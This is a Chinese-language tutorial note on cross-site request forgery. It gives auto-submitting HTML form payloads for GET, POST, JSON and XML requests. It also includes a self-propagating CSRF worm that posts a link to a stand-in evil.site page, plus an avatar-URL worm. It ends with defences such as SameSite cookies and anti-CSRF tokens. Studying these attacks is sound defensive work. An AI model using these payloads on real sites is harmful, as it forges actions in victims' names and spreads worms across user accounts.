

# CSRF

> 跨站请求伪造：诱使目标浏览器发送特定请求，但无法获取凭证和返回结果



<!-- more -->

## 发送请求

假设关注用户请求：http://example.com/follow?id=userid

### GET

\、\<iframe>、\<script>等带src属性的标签

### POST

1. 表单

   ```html
   <form id="myform" action="http://example.com/follow" method="POST">
       <input type="hidden" name="id" value="123">
   </form>
   <script>
   	document.getElementById("myform").submit();
   </script>
   ```

2. JSON

   想要提交的JSON数据

   {
   	"id": 123
   }

   但表单数据是name=value的形式，因此插入无效带等号的键

   ```html
   <form id="myform" action="http://example.com/follow" method="POST">
       <input type="hidden" name="{&quot;id&quot;:123, &quot;dummy"value="&quot;:0}">
       <!-- {"id":123, "dummy"value="":0}  -->
   </form>
   <script>
   	document.getElementById("myform").submit();
   </script>
   ```

3. XML

   ```html
   <input type="hiden" name="&lt;xml version" value="&quot;1.0&quot;?&gt;&lt;id&gt; 123&lt;/id&gt;">
   ```

   ```
   <input type="hiden" name="<xml version" value=""1.0"?><id> 123</id>">
   ```
   

## CSRF蠕虫

### 条件

1. 应用发送其他用户可见内容存在CSRF漏洞
2. 发送内容可嵌入链接

### 传播

> 通过点击博客链接，受害者将发送一篇同样博客进行传播

```html
<form id="myform" action="http://example.com/new_blog" method="POST">
    <input name="content" value='<a href="http://evil.site/csrf.html">click me</a>'>
</form>
<script>
	document.getElementById("myform").submit();
</script>
```

> 通过将头像URL设置为更新头像URL，当受害者载入图片时将改变头像，并根据嵌套层数进行传播，每传播一次剥去一层

```
http://example.com/updateAvatar?url=[IAMGE_URL]
```

## 防御方案

### 验证码

强制用户与应用交互

> 不足：并非所有操作可加验证码

### Referer校验

检测请求是否来自合法“源”

> 不足：并非什么时候都能获取Referer，且Referer可能为空或伪造

### Cookie的SameSite属性

设置strict模式将禁止跨站携带Cookie

> 不足：如果允许发送站内链接，点击链接将会携带Cookie

### Anti-CSRF Token

> 使用随机token

CSRF攻击成功的重要原因是操作中的参数和参数值被猜中，因此将参数加密或使用签名攻击者将无法使用正确参数

加密后的参数非常难读，如果参数每次变化URL将无法被用户收藏，普通参数也被加密的话将给数据分析带来很大困扰

因此使用一个更加通用的方案，保持URL不变，在后面加上随机的参数Token

实际应用时可放于用户Session或浏览器Cookie中

> 要保证Token的机密性与随机性